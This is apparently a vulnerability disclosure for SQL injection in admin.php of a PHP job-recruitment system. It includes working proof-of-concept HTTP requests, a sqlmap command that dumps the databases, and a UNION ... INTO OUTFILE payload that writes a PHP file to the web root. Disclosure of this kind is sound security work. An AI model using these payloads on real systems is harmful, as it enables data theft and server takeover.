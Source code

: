 # Job-recruitment-in-php has sql injection vulnerability in admin.php  

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
admin.php
## describe
Through code audit, when there is an unauthorized SQL injection vulnerability in the admin.php of the Job_Recruitment systtem foreground login portal, all the information of the database can be obtained without authorization, and arbitrary commands may be executed. control parameter: **$userid**

## code analysis
The **$userid** parameters of the admin.php are not filtered and concatenated into the SQL statement for execution. 

![image-20241110223535966](https://github.com/user-attachments/assets/f9873589-53e0-4744-bd8a-0001cb911871))

## POC

### get data from databases;

```
POST /admin.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/admin.php/
Cookie: PHPSESSID=ae0a2j2ltu9oha37giuamhqjkn
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=delete_user&userid=1*
```

save as 1.txt 

and excute the command

```
python sqlmap.py -r 1.txt --dbs
```

get database: owlphin

![image-20241110215358910](https://github.com/user-attachments/assets/5f24609f-82a2-4c09-872d-57b3b685ad73)

### RCE

```
POST /admin.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/admin.php/
Cookie: PHPSESSID=ae0a2j2ltu9oha37giuamhqjkn
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=delete_user&userid=1'+union+select+'<?php phpinfo();?>'+into+outfile+'D:/phpstudy_pro/WWW/ai-recruitment-system-master/phpinfo.php'--+#
```

result

![image-20241111092339446](sql24未交高.assets/image-20241111092339446.png)